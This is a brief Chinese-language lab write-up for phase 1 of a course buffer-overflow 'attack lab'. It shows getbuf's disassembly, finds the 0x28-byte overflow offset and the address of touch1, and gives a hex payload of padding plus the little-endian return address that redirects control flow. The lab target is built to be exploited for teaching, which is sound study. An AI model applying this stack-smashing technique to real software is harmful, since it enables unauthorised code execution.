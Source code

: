 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
